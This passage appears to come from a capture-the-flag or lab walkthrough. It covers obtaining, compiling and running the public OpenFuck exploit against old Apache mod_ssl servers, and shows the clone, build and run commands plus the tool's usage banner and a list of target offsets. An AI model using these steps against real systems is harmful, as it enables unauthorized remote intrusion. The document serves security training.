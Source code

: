 We are interested in the exploits with mod_ssl, but they give errors when compiling, so we have searched for the version of apache and mod_ssl in Google looking for exploits and found the following GitHub page with the modified .c file which does not give compilation problems.

```bash
https://github.com/heltonWernik/OpenLuck
```

Clone the repository on our machine:

```bash
git clone https://github.com/heltonWernik/OpenFuck.git
```

Install the necessary libraries:

```bash
apt-get install libssl-dev
```

Compiled

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```
### Explotation

We run the  exploit

```bash
./OpenFuck
```

Output

```bash
./OpenFuck                    

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuckV2 target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
        0x00 - Caldera OpenLinux (apache-1.3.26)
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)
        0x03 - Cobalt Sun x (apache-1.3.26)
        0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)
        0x05 - Conectiva 4 (apache-1.3.6)
        0x06 - Conectiva 4.1 (apache-1.3.9)
        0x07 - Conectiva 6 (apache-1.3.14)
        0x08 - Conectiva 7 (apache-1.3.12)
        0x09 - Conectiva 7 (apache-1.3.19)
        0x0a - Conectiva 7/8 (apache-1.3.26)
        0x0b - Conectiva 8 (apache-1.3.22)
        0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)
```